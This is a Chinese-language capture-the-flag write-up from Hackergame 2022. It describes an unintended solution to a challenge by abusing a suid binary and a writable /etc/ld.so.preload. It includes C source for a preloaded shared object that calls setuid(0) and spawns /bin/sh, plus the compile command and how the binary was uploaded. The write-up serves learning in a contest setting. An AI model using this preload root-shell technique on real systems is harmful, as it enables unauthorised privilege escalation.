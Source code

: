 ## 传达不到的文件

> **Warning**  
> 这是一个非预期解。  
> 预期做法请参考[官方题解](https://github.com/USTC-Hackergame/hackergame2022-writeups/tree/master/official/传达不到的文件)。

进去随便玩一下，只有 `/chall` 这个文件有 `suid`，同时又发现系统里有 `/lib64/libc.so.6`。删掉 ~~（没想到居然能删）~~ 后运行 `/chall` 发现找不到动态链接库。得出结论：`chall` 是动态链接的程序，可以用 `LD_PRELOAD` 来劫持。根据 `ld.so(8)` 所描述：

```txt
       LD_PRELOAD

              ...

              In secure-execution mode, preload pathnames containing
              slashes are ignored.  Furthermore, shared objects are
              preloaded only from the standard search directories and
              only if they have set-user-ID mode bit enabled (which is
              not typical).
              
              ...
              
              There are various methods of specifying libraries to be
              preloaded, and these are handled in the following order:

              (1) The LD_PRELOAD environment variable.

              (2) The --preload command-line option when invoking the
                  dynamic linker directly.

              (3) The /etc/ld.so.preload file (described below).
```

具有 `suid` 权限的文件只能从标准搜索路径中载入，不会遵守环境变量 `LD_PRELOAD`，需要写在 `/etc/ld.so.preload` 中。非常幸运的是这个目录我也是可写的。

代码如下，使用 `gcc -fPIC -shared exp.c -o exp.so -nostartfiles` 编译。

```c
// SPDX-License-Identifier: CC-BY-NC-SA-4.0

#include <unistd.h>

void _init() {
    char *argv[] = {"/bin/sh", 0};
    setuid(0);
    execve(argv[0], NULL, NULL);
}
```

不过远程没有编译器怎么办？~~没关系，把本地编译的二进制手敲上去就好了。~~  
本地编译好以后打个 tar 包，在远程手敲 base64 编码。  
拿到 root shell 以后就想干啥干啥了，flag 买一送一。
